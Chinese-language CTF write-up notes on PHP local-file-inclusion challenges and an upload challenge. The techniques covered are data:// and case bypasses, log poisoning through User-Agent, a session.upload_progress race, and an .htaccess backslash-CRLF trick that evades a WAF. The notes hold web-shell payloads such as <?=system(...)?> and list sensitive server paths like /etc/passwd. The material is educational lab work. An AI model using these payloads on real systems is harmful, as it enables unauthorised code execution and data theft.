
解析手段：
<font color="red">
1.ph?：    ?为通配符，通配php


2. 写法 1：纯文本格式

```
data://text/plain,内容
```

- `text/plain`：声明后面是纯文本
- `,`（逗号）：分隔符
- 后面跟具体内容

 写法 2：base64 编码格式

```
data://text/plain;base64,Base64编码内容
```

- 用分号 `;` 加 `base64` 标记
- 后面跟 base64 编码后的字符串，PHP 会**先自动解码再执行**

> 
> 当代码里有特殊字符（引号、尖括号、空格）容易出问题时，用 base64 写法更稳。
>
3.`<?=` 是 PHP 的**短输出标签**，是 `<?php echo` 的简写。
写法等价于`<?= 变量 ?>`=`<?php echo 变量; ?>`
因其不含php故不会被过滤
</font>

### 5.总结
此题用data协议其实存在侥幸，因为php配置项allow_url_include刚好是开启的
才能用，但这题本身也是简单的文件包含其配置打开也是必然的了。</font>
##### 1.做一下PHP配置项简单的介绍
它是 `php.ini` 里的一个**开关**，控制 **include/require 能不能包含 URL 形式的内容**（比如 `data://`、`http://`、`php://input`）。

---

## 80题
### 1.源码
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
### 2.解析
由
```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
```
可知其将上面的两条路都堵死了，但由于str_replace是区分大小写的我们先尝试一下绕过。
### 3.尝试
```php
url后拼接/?file=DATA://text/plain,<?system<"ls">;?>
```
<font color="red">发现显示

operation failed ：操作失败(allow_url_include关闭了)
显示了DATA：大写绕过成功了。
</font>

### 4.我的思路
#### <font color="red">
普通的传参方式到file里面让系统去执行已经不行了，所以将系统命令执行直接放到系统日志里或许会有奇效。
</font>
<font color="blue">
Linux高频默认目录(<font color="red">目录不是绝对，可以修改</font>)
路径	用途
/etc/passwd	验证 LFI 最经典文件，能读它就证明有文件读取
/var/log/nginx/access.log	nginx 访问日志（本题用的）
/var/log/nginx/error.log	nginx 错误日志
/var/log/apache2/access.log	Apache 访问日志（Debian/Ubuntu）
/var/log/httpd/access.log	Apache 访问日志（CentOS/RHEL）
/var/lib/php/sessions/	PHP 的 session 文件存储目录（session 包含题）
/tmp	临时文件，有时 session 或上传文件在这
/proc/self/cmdline	当前进程的启动命令
/proc/self/environ	当前进程环境变量（也可做日志式注入）
</font>

### 5.解题(巧妙用法)
#### 1.用bp修改useragent(UA)
<font color="red">漏洞原理源于：浏览器对于用户UA的输入是绝对信任的。

##### 1.user-Agent 是请求头里的字段，**客户端发什么，服务器就收什么**。BP 让我能把它从浏览器标识改成任意内容，包括 PHP 代码
##### 2.nginx 写 access.log 只做 "记录"，**不判断是不是代码、不做过滤**，我写的 `<?=system(...)` 被原样存进日志。
##### 3.include(file):include包含了file，我们可以用file=包含/var/log/nginx/access.log我们写入的日志文件,因为浏览器自带了php解析器，会从头到尾将我所写的php代码执行一遍，故而能能让服务器执行我们想要的操作。
</font>

#### 2.先查一下当前工作目录里有什么文件
注：<font color="red">PHP 运行在网站里，它的当前工作目录通常就是**网站根目录**：</font>


#### 看到有fl0g.php文件

##### 1.先试一下<?=system('cat fl0g.ph?')>,发现无返回，
##### 2.原因：`cat` 把它**原样输出**，这段含 `<?php` 的文本被发给浏览器，而**浏览器不认识 `<?` 标签，会把整段隐藏**，于是页面看起来什么都没有。
##### 3.故而需要用base64编码：`base64 fl0g.ph?`编码成纯字母数字，无特殊标签正常显示 ，解码即得源码

##### 4.获得编码后的字符串

##### 5.将其解码


### 6.我犯的错
#### 1.获得文件名后要看清<font color="red">:我将fl0g看成flag浪费了很多时间</font>
#### 2.尾缀不能写php会被str-replace换成???
#### 3.不能直接用cat打印，`cat` 把它**原样输出**，这段含 `<?php` 的文本被发给浏览器，而**浏览器不认识 `<?` 标签，会把整段隐藏**，于是页面看起来什么都没有。

#### 7.UA数据工作流程
在 BP 改 UA = <?=system(...)
        │（你能控制）
        
        ▼
nginx 原样写进日志（不检查）
        │
        ▼
include 日志，PHP 遇到 <?...?> 执行
        │
        ▼
输出命令结果（ls 已成功 → fl0g.php index.php）、


## 81题
### 1.源码

#### 一样的解法与80题，

#### (<font color="red">证明80题可能有其他解法</font>）

##### 1.例如在url让include包含有php代码文件，我尝试一下

## 82题(条件竞争文件包含)
### 1.源码

##### 1.解析
“.”被过滤了则之前的fl0g.ph?与日志包含都不能用了
想到可以用include包含session文件
### 2.session文件介绍
#### 一、Session 文件基础

- **命名**：`sess_<PHPSESSID>`，PHPSESSID 由 Cookie 控制，可自定义
- **无后缀**：路径里没有点，能绕过点过滤
- **路径**：
  - `/tmp/sess_xxx`
  - `/var/lib/php/sessions/sess_xxx`
- **内容**：序列化后的 `$_SESSION` 数据，形如 `变量名|值`

#### 二、用法 1：Session 文件包含（最直接）

**条件**：代码里能把可控数据写进 `$_SESSION`，同时存在 LFI。

最小示例：

```
session_start();
$_SESSION['username'] = $_GET['username'];  // 可控
include($_GET['file']);
```

操作：

1. 让 `username=<?=system('base64 fl0g.ph?');?>`，写进 session
2. include `/tmp/sess_<你的PHPSESSID>`，执行代码

#### 三、用法 2：session.upload_progress 注入（本题用法）

**条件**：没有代码控制点、没有上传表单时，靠 PHP 默认功能 "无中生有"。

- 发 multipart 上传 POST，带字段 `PHP_SESSION_UPLOAD_PROGRESS=代码`
- PHP 自动把代码写进 session 文件
- 因 `cleanup=On`，上传完即清除 → **必须条件竞争**（一边持续上传，一边频繁 include）

#### 四、用法 3：Session 反序列化

**条件**：存储和读取用了不同的序列化引擎（引擎不一致）。

三种引擎：

表格

| 引擎 | 存储格式 |  |
| --- | --- | --- |
| `php` | ` 键名 | 序列化值 `（用竖线分隔） |
| `php_binary` | 长度 + 键名 + 值 |  |
| `php_serialize` | 整体标准序列化 `a:{...}` |  |

> 
> 当写入用 `php_serialize`、读取用 `php` 时，竖线 `|` 的解析差异可注入恶意序列化数据，触发反序列化（配合魔术方法）。

#### 五、三类用法对比

表格

| 用法 | 触发条件 | 是否需要竞争 |
| --- | --- | --- |
| 直接文件包含 | 代码有 `$_SESSION = 可控值` + LFI | 否 |
| upload_progress | 无控制点，靠默认上传功能 | **是**（cleanup=on） |
| 反序列化 | 序列化引擎不一致 | 否 |

#### 六、本题对应

这道 web82 属于**用法 2**：没有上传点、没有 session 赋值点，只能用 `session.upload_progress` 配合条件竞争，把代码写进无后缀的 session 文件再 include。
##### 1.<font color="red">前提`session.upload_progress.enabled = On`（PHP 默认）</font>
##### 2.<font color="red">漏洞主要原因：session可以被include包含,且session无后缀（如.php）</font>
#### 一句话总结

> 
> Session 文件三大用法：**① 可控 session 直接包含、② 用 upload_progress 无中生有注入并竞争、③ 引擎不一致做反序列化**；本题走第二种，核心是 "无后缀绕点过滤 + 竞争抢在清理前执行"。
---


### 3.我自己理解的原理简介
#### 1.我们可以通过在本地构建一个html网页上面那有提交功能，提交的地址指定为我们的靶机，这样html里面包含的数据就传过去了
#### 2.浏览器php解析器工作原理(bug)
##### <font color="red">当 PHP 检测到一个 multipart 
**(1. 用 multipart 发一个带文件字段的 POST
2. PHP 一看是 "文件上传"，并且发现请求里有 `PHP_SESSION_UPLOAD_PROGRESS` 字段
3. 就自动把进度数据（含你的代码）写进 session 文件
4. 如果不是 multipart / 没有文件字段，这个机制根本不启动)**

请求里，含有配置指定名字的字段（默认 **`PHP_SESSION_UPLOAD_PROGRESS`**），就会自动：
- 1. 开启 / 创建 session 文件
- 2. 把上传进度信息，连同**这个字段的值**，一起写进 session 文件
- 3.重点.这个字段的值php是照单全收的，就如同UA里面输入，
原本这个字段是用来给本次上传 "起个标识名"，正常可能填 `upload123` 之类。

但 **PHP 不检查这个值的内容，照单全收写进 session**。于是我们把它从普通名字换成 PHP 代码：</font>
```php
<?=system('base64/var/www/html/fl0g.ph?');?>
```
#### 3include(包含的是session文件)
session文件这个路径不是随便写的，它由**「目录」+「文件名」两部分拼出来**，每一部分都有明确来源。

##### 一、整体拼接公式

```
/tmp/   +   sess_   +   ctf123
 │           │           │
 │           │           └ 你 Cookie 里 PHPSESSID 的值
 │           └ PHP 写死的文件名前缀
 └ PHP 配置指定的保存目录
= /tmp/sess_ctf123
```


### 4.流程简介
<font color="blue">

multipart 请求里带 PHP_SESSION_UPLOAD_PROGRESS 字段
        │
        ▼
PHP 识别到（默认开启的功能）
        │
        ▼
自动创建 session，把【字段值】写进去
        │
        ▼
字段值被我们换成代码 → 代码进入 /tmp/sess_ctf123
        │
        ▼
include 这个 session → 代码执行
</font>

### 5.综述攻击流程
#### 1. 打开BP，开Proxy
中intercept on让请求被卡住后，便于我能够修改改请求头、改 body、加 Cookie和发进intruder批量发起请求。
#### 2.在代理面板按ctrl+o打开桌面上的up.html随便提交一个小的文件最好是.txt


#### 3.（POST请求）抓到后新建一个Cookie：PHPSESSION=ctf123

#### 4.新建一个（GET请求）


**再同时设置他们发起请求的次数(null=1000):几乎必中**

#### 5.详解为什么要同时发起(GET)(POST)请求
##### 1.用GET请求读取：可以在url地址栏里拼接file=要包含的文件(符合题目中$GET=($_file))
作用：让题目 `include` 这个 session 文件
##### 2.再用POST请求发起请求：
作用：以 "文件上传" 的形式发给服务器，触发 PHP 的 upload_progress，**把代码写进 session 文件**

3.**<font color="red">POST（写）：不断把代码写进 /tmp/sess_ctf123
GET（读）：不断 include /tmp/sess_ctf123
         ↓
   并发重复，GET 某次撞上代码 → 执行 → 返回 base64 → 解码拿 flag</font>**
##### 4.`ession.upload_progress.enabled=On`靶机是默认 On(开启的话每次post请求都会被清除，所以要竞争性请求)
POST 请求发出去
  │
  ├─ 旁证：/tmp/sess_ctf123 文件存在（include 返回 200 而非 No such file）
  │
  └─ 铁证：竞争时出现 Length 1435、含 upload_progress + base64
            → 如果 POST 没写，永远不会有这条

#### 6.将命中后的base64编码的字符串放到cyberchef进行解码


<--up.html简介
-->

## Geek
### ezupload
#### 1.源码


#### 2.解析
##### 1.与之前的82题有相似之处
##### 2.先做一下探测
- 建一个.txt文件上传一下，看他的上传规律
返回

| txt 上传成功，能直接访问 | 后端**没拦 txt** |
| --- | --- |
| 访问 URL | `/uploads/文本文档.txt`（`%20` 是空格编码） |
| 上传目录 | **`/uploads/`** |
| 文件名 | **保留原名**（没随机改名） |

所以规律是：上传后的文件在 `http://靶机/uploads/我的文件名`。

- 2.再建一个shell.php上传一句话木马
```php
<?=system('ls');?>查目录
```
 看能否执行
<font color="red">或者说过滤了什么</font>


- 3.再建一个shell.php文件，里面写hello，看php文件能否上传

上传成功，证明WAF不过滤后缀.php

且能访问
- 4.但是我们要执行命令必须要写<?,
先验证一下php能被网站解析，在抓包看WAF

文件能被解析
- 5.抓包

将第26行改为<?php system('ls');?>
看拦截"<"是否与<?=有关


一样：`<?php ... ?>` 也被拦，说明 WAF **拦所有 `<`**，跟标签写法无关。
#### 3.<font color="red">所以不能在文件内容里写任何 PHP 代码。必须换思路：**让 WAF 看到的文件内容，和 PHP 实际保存的内容不一样。**</font>

##### 1.下一步：试 multipart 多字段绕过
原理：在一个上传请求里放**两个同名 file 字段**，如果 WAF 只检第一个、PHP 只存最后一个，就绕了。
multipart 格式允许在一次请求里放**多块数据**。字段名 `name="file"` 出现两次，语法上完全合法：
##### 2.过程：把第一块放 "合法" 的，第二块放 "违禁" 的：
第一块（WAF 检查的）：hello.php，内容 "hello"        ← 没有 <，WAF 放行
第二块（PHP 保存的）：shell.php，内容 <?=system('ls');?>  ← 有 <，但 WAF 没检到
##### 结果：

- WAF 看第一块 → 干净 → **放行**
- PHP 取最后一块 → 保存了 shell.php（含木马）→ **绕过成功**
#### 4.实操
##### 1.开启拦截，先上传一个无危害文件
再将raw中 Raw 里找到文件那部分（`name="file"`），把它**改成两块**：
这样就能发两个.php文件从而绕过

<font color="red">有问题还是被拦截了</font>

##### 2.换思路用.user.ini
###### 1.内容写：auto_prepend_file=hello.txt

现在的 `.user.ini` 内容是 `auto_prepend_file=hello.txt`，意思是 "uploads 目录下所有 .php 文件执行前，先包含 hello.txt"。
但 hello.txt 里要放 PHP 木马（含 `<`）。之前我们只测过 .php 文件含 `<` 被拦，**还没测过 .txt 文件含 `<` 拦不拦**。
新建hello.txt,里面写<?=system('ls');?>

发现被拦
##### 3.换思路，既然不能上传含 `<` 的文件，那让 .user.ini 直接从 POST 请求体读代码。、
改内容：auto_prepend_file=php://input


发现结果还是只有hello没有目录
WAF 不仅拦 `<`，还拦 `auto_prepend_file` 关键词：
.user.ini不行
##### 3.换思路：探测 WAF 到底检测什么
<font color="red">看到Apache</font>


用 PowerShell 在服务器上批量测试，搞清楚 WAF 的检测范围：

| 位置 | WAF 是否拦 |
|---|---|
| 文件内容里的 `<`（0x3C） |  **拦** |
| submit 字段里的 `<` |  不拦 |
| 文件名里的 `<` |  不拦 |
| Content-Disposition 里的 `<` |  不拦 |
| Content-Type 里的 `<` |  不拦 |

**结论：WAF 只检测 `name="file"` 的文件内容部分里的 `<` 字节。**

##### 4.测试各种绕法

| 绕法 | 结果 |
|---|---|
| URL 编码 `%3C?=...%3E` |  绕 WAF，但 PHP 不执行（返回纯文本） |
| HTML 实体 `&lt;?=...&gt;` |  绕 WAF，但 PHP 不执行 |
| Hex 转义 `\x3C?=...\x3E` |  绕 WAF，但 PHP 不执行 |
| Content-Transfer-Encoding: base64 |  绕 WAF，但 PHP 不解码 |
| .htaccess AddType 让 .txt 当 PHP 解析 |  生效，但还是需要 `<` |
| 多字段（两个 name="file"） |  被拦 |
| file/FILE 大小写 |  PHP 不处理大写 FILE |
| auto_prepend_file 各种变形（注释、多空格、Tab） |  全被拦 |

**核心矛盾：WAF 只认 0x3C 这个字节，PHP 也只认 `<?` 标签。编码能绕 WAF，但 PHP 也不执行。**

##### 5.最终解法：反斜杠 + CRLF 续行拆分关键词

**关键思路**：用反斜杠 + CRLF 换行，把 `php_value` 和 `auto_prepend_file` 拆成多行，WAF 检测不到完整关键词，但 Apache 解析 .htaccess 时会把反斜杠+CRLF 当续行，拼成完整指令。

**.htaccess 内容**：
```
php_val\
ue auto_prepend_\
file /flag
```

**原理**：
| 角色 | 看到的内容 |
|---|---|
| **WAF** | 拆成了 `php_val`、`ue auto_prepend_`、`file /flag` 三行，检测不到完整的 `php_value` 和 `auto_prepend_file` 关键词 → **放行** |
| **Apache** | 解析 .htaccess 时，反斜杠 + CRLF 被当续行，拼成完整的 `php_value auto_prepend_file /flag` → **生效** |

**注意**：
- 必须是 **CRLF 换行**（`\r\n`），纯 LF 会 500
- 必须**同时拆 `php_value` 和 `auto_prepend_file`** 两个关键词，只拆一个会被拦

##### 6.验证效果

上传 .htaccess 后，访问 `uploads/shell.php`：

```
SYC{082237df-9a8a-4f98-8df0-59e23f5f1787}
PD9lIHN5c3RlbSgnbHMnKTs/Pg==
```

- 第一行：flag（auto_prepend_file 包含 /flag 输出的）
- 第二行：之前上传的 base64 字符串（shell.php 本身的内容）

##### 7.知识点小结

| 考点 | 要点 |
|---|---|
| WAF 检测范围 | 只检测文件内容里的 `<` 字节（0x3C），不检测文件名、header、其他字段 |
| 反斜杠续行 | Apache .htaccess 支持 `\` + CRLF 续行，拼成完整指令 |
| 关键词拆分 | 把 `php_value`、`auto_prepend_file` 拆成两行，绕 WAF 关键词检测 |
| auto_prepend_file | PHP 在执行脚本前自动包含指定文件，直接输出 /flag 内容 |

<font color="red">**一句话总结**：WAF 拦 `php_value auto_prepend_file` 关键词，用反斜杠+CRLF 把两个关键词都拆开，WAF 看不到完整词就放行，Apache 解析时拼回完整指令生效。</font>
